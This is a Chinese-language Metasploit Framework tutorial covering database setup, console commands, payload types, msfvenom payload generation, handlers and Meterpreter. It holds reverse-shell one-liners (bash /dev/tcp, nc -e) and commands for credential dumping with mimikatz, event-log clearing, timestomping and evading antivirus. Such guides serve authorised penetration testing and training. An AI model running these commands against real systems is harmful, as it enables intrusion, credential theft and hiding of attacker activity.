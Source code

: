 # Metasploit

该工具存在免费版本 Metasploit Framework 和付费版本 Metasploit Pro, 后者提供了许多实用的专业功能, 可以简化工作流程, 但是天价.  
以下内容均以 Metasploit Framework (MSF) 为例.

## 数据库

配置数据库后才能使用工作区相关功能, 可以将部分重要数据自动保存在数据库中, 方便后续使用.

初次使用 MSF 时可以利用 [msfdb](https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html) 对数据库进行自动初始化, 若自动初始化失败则进行[手动初始化](https://docs.rapid7.com/metasploit/managing-the-database/). 仅支持 [PostgreSQL](https://www.postgresql.org/) 数据库.

```sh
# Arch/Manjaro
sudo pacman -S postgresql                      # 安装数据库
sudo systemctl enable --now postgresql.service # 启用数据库服务
sudo systemctl status postgresql.service       # 检查数据库服务状态

# Kali
sudo service postgresql start  # 启用数据库服务
sudo service postgresql status # 检查数据库服务状态

msfdb init   # 初始化数据库
msfdb status # 检查数据库服务状态, 包括监听端口

msfdb start # 启动数据库
```

其中启动数据库服务和初始化数据库的步骤容易出现错误, 根据提示信息进行故障排除即可.  
启动 msfconsole 后可以通过 `db_status` 检查数据库连接状态.

之后便可以使用数据库相关指令, 关键信息 (如主机/服务/漏洞/战利品) 会被记录到数据库中以便后续查询.

## 快速入门

```sh
# 数据库/工作区
msf > workspace [name]             # 切换工作区
msf > workspace -a [name]          # 添加工作区
msf > db_nmap [...]                # 调用 nmap 进行扫描, 比将结果保存到当前工作区
msf > db_export -f [format] [file] # 将当前工作区中的数据以指定格式 (通常是 xml) 导出到文件中, 导出结果可能为空, 需要进行检查

# 查找/选择 module
msf > search [[type:]keyword] # 搜索 module
msf > use [id/module]         # 使用 module, module 的名称或 search 指令结果中的 id
msf > use [id/module]         # 显示 module 的详细信息.
msf > setg [option] [value]   # 设置默认选项, 避免切换 module 时重复填写不变的参数

# 使用 module
msf(module) > options                 # 显示当前 module 的选项
msf(module) > info                    # 显示当前 module 的详细信息
msf(module) > show [option]           # 显示选项的可用选项
msf(module) > set [option] [id/value] # 设置选项, 选项的值或 show 指令结果中的 id
msf(module) > check                   # 部分 exploit module 支持, 用于验证 RHOSTS 是否可以被利用
msf(module) > run                     # 执行 module

# 会话管理
msf > sessions         # 列出会话, -l
msf > sessions [id]    # 打开会话, -i
msf > sessions -u [id] # 将 shell 升级到 meterpreter

# 故障排除
msf > setg LogLevel 5          # 日志详细等级, 范围 1-5
cat ~/.msf6/logs/framework.log # 查看日志
msf > debug                    # 显示诊断信息, 在故障发生后使用
```

更多内容请参考扩展中的 Metasploit Cheat Sheet.

## 载荷

**别名**: 攻击载荷, 有效载荷.

MSF 中的载荷(payload)共有以下三种:

- **Singles**: 包含完整的功能, 不依赖 MSF, 因此不需要通过 exploit/multi/handler 来建立连接.
- **Stagers**: 小巧可靠, 用于建立连接并接收 Stages.
    - **bind**: 正向连接, MSF 主动尝试与目标中的 stager 建立连接.
    - **reverse**: 反向连接, 目标中的 stager 尝试与 MSF 连接. 可以绕过部分防火墙规则.
    - **https**: 伪装成正常 HTTPS 流量进行通讯. 可以绕过部分防火墙规则且更难被探测器识别.
- **Stages**: 无大小限制, 包含高级功能.

在遇见 "载荷" 一词时应结合上下文推断具体含义.  
命名规则是 `<platform>/[arch]/<single>` 和 `<platform>/[arch]/<stage>/<stager>`, 比如 `windows/x64/meterpreter/reverse_tcp` 就代表 Windows 下使用 x64 指令集编写的使用 tcp 协议反向建立连接的 stager, 用于接收 meterpreter 这个 stage.

### 生成载荷

使用 msfvenom (msfpayload 和 msfencode 的替代品) 来生成载荷, 详情请参考[官方教程](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).  
需要根据具体情况 (包括漏洞利用方式, 架构, 系统, 环境, 通讯方式等) 选择合适的载荷/编码器/格式等其他参数.

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=[LHOST] LPORT=[LPORT] rc4password=[password] -f exe -o ~/payload.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp     LHOST=[LHOST] LPORT=[LPORT]                        -f exe -o ~/payload.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp       LHOST=[LHOST] LPORT=[LPORT]                        -f elf -o ~/payload

msfvenom -l payload  # 查看载荷, 根据目标进行选择
msfvenom -l format   # 查看格式, 可以是可执行文件/脚本, 也可以只是用于源代码的 shellcode 代码片段
msfvenom -l encoders # 查看编码器
```

除了上传可执行文件到目标并执行, 也可以直接利用目标上的命令来获取 shell, 然后再将 shell 升级为 meterpreter.

```sh
bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1
nc [LHOST] [LPORT] -e /bin/sh
```

选择 `shell_reverse_tcp` 作为载荷并建立连接.

除了直接生成可执行文件/脚本, msfvenom 也可以直接生成 shellcode. 常用选项:

- `-a`: 指定架构.
- `--platform`: 指定操作系统.
- `-e`: 指定编码器.
- `-i`: 指定编码次数.
- `-b`: 指定 bad chars.
- `-s`: 指定最大大小.
- `--smallest`: 生成最小的.

### 建立连接

使用 handler 来与目标中的 stager 建立连接, 并上传 stage.

```sh
msf > use exploit/multi/handler
msf > set payload [id/value]
# ... 设置载荷中的参数 ...
msf > set ExitOnSession false # 建立连接后不结束监听
msf > run -j                  # 开始监听并作为后台任务运行, 因为这是一个堵塞操作
```

## [Meterpreter](https://github.com/rapid7/metasploit-payloads)

Meterpreter 是一种特殊的多功能载荷, 可以动态加载/执行/卸载脚本和插件, 充分利用其功能可以使后渗透攻击变得十分方便.  
以下列举几个常用功能:

```sh
# 权限提升
meterpreter > getsystem [...]   # 自动提权
meterpreter > steal_token [pid] # 通过窃取拥有更高权限的进程的令牌提权

# 获取密码
meterpreter > load mimikatz                          # 载入 mimikatz
meterpreter > run post/windows/gather/smart_hashdump # 导出账户密码 hash

# 清除痕迹
meterpreter > clearev         # 清除应用/系统/安全日志
meterpreter > timestomp [...] # 编辑文件属性(包括创建/最后修改时间)

# 使用 module
meterpreter > search type:post  # 列出 post module
meterpreter > run [module]      # 执行 module, 主要位于 "post/[system]" 下
```

## 故障排除

- PostgreSQL 服务启动失败, 原因: "/var/lib/postgres/data" is missing or empty.

    ```sh
    sudo -i
    su - postgres -c "initdb --locale en_US.UTF-8 -D '/var/lib/postgres/data'"
    exit
    ```

- Meterpreter 会话意外关闭, 返回原因 Died / exploit/multi/handler 无法和目标建立连接 / 目标上的接收器发生段错误, 可能是又以下几个原因导致的:  

    - MSF 和 Meterpreter 的版本不兼容: 解决方法是确保版本相同.
    - 载荷不匹配: 该问题会导致目标上的 Stagers 发生段错误, exploit/multi/handler 中设置的载荷(类型/系统/架构)与目标上期待的不一致, 解决方法是确保载荷一致.
    - 被安全软件终止: 该问题会导致会话成功建立却意外关闭, 可能的解决方法有:  

        1. 转移进程: 通过 `set AutoRunScript "migrate -n explorer.exe"` 在链接建立后立即转移到其他进程, 以规避安全软件的检测.
        2. 混淆: 生成载荷时使用编码器混淆并加密代码, 以规避安全软件对内存中代码的特征检测. 或通过 `set EnableStageEncoding true` 对发送的 stage 进行编码, 以规避安全软件对流量特征的识别.

- msfdb 初始化数据库失败. 可以使用下面的源安装 `msfdb-blackarch`:

    ```toml
    [blackarch]
    SigLevel = Optional TrustAll
    Server = https://mirrors.ustc.edu.cn/blackarch/$repo/os/$arch
    ```

## 参见

- [Metasploit Documentation](https://docs.metasploit.com/).
- [Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/).
- [Metasploit Cheat Sheet](https://www.comparitech.com/net-admin/metasploit-cheat-sheet/).
- <https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/>.
- [mimikatz](https://github.com/ParrotSec/mimikatz).

## 参考

- <https://www.offensive-security.com/metasploit-unleashed/payloads/>.
